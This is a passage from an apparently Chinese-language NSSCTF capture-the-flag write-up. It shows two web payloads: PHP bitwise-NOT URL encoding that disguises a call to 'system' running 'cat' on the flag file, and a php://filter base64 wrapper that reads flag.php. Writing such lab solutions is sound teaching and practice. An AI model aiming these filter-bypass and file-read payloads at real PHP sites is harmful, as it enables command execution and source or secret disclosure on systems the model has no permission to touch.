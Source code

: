 再构造cat /flllllaaaaaaggggggg：

```
<?php
echo urlencode(~'system');
echo "\n";
echo urlencode(~'cat /flllllaaaaaaggggggg');
?>
```

```
%8C%86%8C%8B%9A%92
%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98
```

```
?wllm=~(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);
```

![image-20250803200001738](./NSSCTF-2.assets/image-20250803200001738.png)



用substr函数检查该参数值的前三个字符是否为 "php"

如果是的话，代码会输出 "Nice!!!"
很明显这里用php伪协议即可读取flag

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20250803201156743](./NSSCTF-2.assets/image-20250803201156743.png)
